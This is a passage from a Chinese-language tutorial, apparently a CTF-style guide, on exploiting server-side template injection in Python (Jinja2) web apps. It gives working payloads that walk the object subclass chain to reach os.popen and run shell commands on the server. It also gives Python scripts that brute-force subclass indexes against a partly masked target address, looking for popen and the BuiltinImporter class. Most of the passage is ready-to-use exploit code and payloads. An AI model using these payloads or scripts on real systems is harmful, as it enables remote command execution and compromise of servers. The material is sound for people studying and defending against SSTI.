 随便挑一个类构造payload执行命令即可：

```python
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}
```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 os._wrap_close，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。

### 寻找 popen 函数执行命令

首先编写脚本遍历目标Python环境中含有 popen 函数的类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'popen' in res.text:
        print(i)

# 得到编号为117
```

直接构造payload即可：

```python
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```

### 寻找 importlib 类执行命令

Python 中存在`<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及`__import__`函数）。我么可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

首先编写脚本遍历目标Python环境中 importlib 类的索引号

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if '_frozen_importlib.BuiltinImporter' in res.text:
        print(i)

# 得到编号为69
```
